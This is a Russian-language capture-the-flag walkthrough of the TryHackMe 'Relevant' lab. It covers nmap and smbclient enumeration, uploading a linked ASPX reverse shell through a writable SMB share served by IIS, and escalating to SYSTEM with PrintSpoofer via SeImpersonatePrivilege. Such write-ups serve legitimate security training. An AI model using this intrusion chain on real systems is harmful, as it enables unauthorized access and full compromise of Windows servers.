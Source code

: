 # Relevant

:white_check_mark:  [**Samba**](#samba)

:white_check_mark: [**SeImpersonatePrivilege**](#SeImpersonate)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV -p- relevant.thm
```

```
PORT      STATE SERVICE       VERSION                                                                                                                     
80/tcp    open  http          Microsoft IIS httpd 10.0                                                                                                    
|_http-server-header: Microsoft-IIS/10.0                                                                                                                  
|_http-title: IIS Windows Server                                                                                                                             
| http-methods:                                                                                                                                              
|_  Potentially risky methods: TRACE                                                                                                                      
135/tcp   open  msrpc         Microsoft Windows RPC                                                                                                       
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                               
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-02-23T14:44:13+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2022-02-22T14:23:03
|_Not valid after:  2022-08-24T14:23:03
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-02-23T14:43:33+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

Главная страница **relevant.thm**:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/1.png)

<a name="samba"></a>

Посмотри что находится на **samba**:
```
smbclient -l relevant.thm
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/2.png)

Находим директорию **nt4wrksv**, посмотрим, что в ней.
```
smbclient \\\\relevant.thm\\nt4wrksv
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/3.png)

Находим файл с паролями, скачаем его:
```
get passwords.txt
```

Декодируем и получаем данные пользователей, которые увы, никуда нельзя подставить, т.к. это rabbit hole.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/4.png)

Просканировав url через **gobuster** находим директорию **nt4wrksv**. В эту директорию можно загрузить свой **shell** через **samba**. Покопавшись в интернете находим [shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/5.png)

Запускаем слушатель и открываем shell через url.
```
http://relevant.thm/nt4wrksv/shell.aspx
```

<a name="SeImpersonate"></a>

Подключившись к машине, посмотрим права командой:
```
whoami /priv
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/6.png)

Мы можем видеть SeImpersonate privileges, которые могут быть использованы для повышения привилегий. Находим [эксплоит](https://github.com/dievus/printspoofer)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/7.png)

Закидываем эксплоит на **samba**, он будет находиться в директории **C:\inetpub\wwwroot\nt4wrksv**.

Запускаем эксплоит командой:
```
PrintSpoofer -i -c cmd
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/6.png)

Получаем nt authority\system